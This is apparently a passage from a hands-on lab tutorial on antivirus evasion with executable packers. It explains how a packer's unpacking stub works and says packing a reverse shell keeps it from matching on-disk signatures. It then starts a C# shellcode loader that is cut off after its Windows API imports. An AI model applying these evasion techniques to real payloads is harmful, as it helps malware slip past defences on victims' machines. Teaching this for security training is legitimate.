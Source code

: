 There's quite a large number of packers out there, including UPX, MPRESS, Themida, and many others.

Packing an application

While every packer operates differently, let's look at a basic example of what a simple packer would do.

When an application is packed, it will be transformed in some way using a **packing** function. The packing function needs to be able to obfuscate and transform the original code of the application in a way that can be reasonably reversed by an **unpacking** function so that the original functionality of the application is preserved. While sometimes the packer may add some code (to make debugging the application harder, for example), it will generally want to be able to get back the original code you wrote when executing it.

![packers](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9aacb2fab2a656ffc82a7b0344918062.png)

The packed version of the application will contain your packed application code. Since this new packed code is obfuscated, the application needs to be able to unpack the original code from it. To this end, the packer will embed a code stub that contains an unpacker and redirect the main entry point of the executable to it.

When your packed application gets executed, the following will happen:

![packed app](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/408fb909374c2b54bebef9809eaa417a.png)

1. The unpacker gets executed first, as it is the executable's entry point.
2. The unpacker reads the packed application's code.
3. The unpacker will write the original unpacked code somewhere in memory and direct the execution flow of the application to it.


## Packers and AVs

using a packer will tranform the reverse shell executable to that it doesnt match any known signatures while on disk. As a result, you should be bale to distribute your payload to any machines disk without much problem. 

AV solutions, however, could still catch your packed application for a couple of reasons:

- While your original code might be transformed into something unrecognizable, remember that the packed executable contains a stub with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable based on the unpacker stub alone.
- At some point, your application will unpack the original code into memory so that it can be executed. If the AV solution you are trying to bypass can do in-memory scans, you might still be detected after your code is unpacked.

Packing our shellcode

Let's start from a basic C# shellcode. You can also find this code in your Windows machine at `C:\Tools\CS Files\UnEncStagelessPayload.cs`:
```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
```